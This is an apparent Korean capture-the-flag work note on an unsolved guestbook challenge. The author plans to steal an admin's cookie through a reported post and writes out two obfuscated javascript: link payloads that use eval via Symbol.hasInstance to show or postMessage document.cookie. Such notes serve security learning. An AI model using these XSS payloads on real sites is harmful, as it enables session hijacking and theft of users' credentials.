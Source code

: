 # 풀이 아직 못함

5/30

게스트북이라는 게시판에 하이퍼링크를 걸고 클릭하면 cookie가 출력되게 만듬

실제로 cookie가 확인되는 것을 보고 아이디어가 생각남

클릭하면 자신의 cookie가 출력되는 게시글을 쓰고 관리자에게 report를 하면 admin의 쿠키를 알 수 있겠구나

<br>

-> 문제 정작 내 화면에는 good이라는 문자열만 보임

-> 해결방안(아직 못해봄) window.postmessage를 이용해서 parent화면에 message출력하게 하면 내 화면에 관리자의 쿠키가 나올 수 있겠구나

지금까지 작성된 payload a는 쿠키 출력 b는 postmessage를 이용(미완...)

[a](javascript:/alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};)

[b](javascript:/parent.postMessage/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};)


<br>
P.S.

관리자에게 게시글을 report하면 하이퍼링크가 클릭될거라 강하게 믿고있음🙏🙏🙏

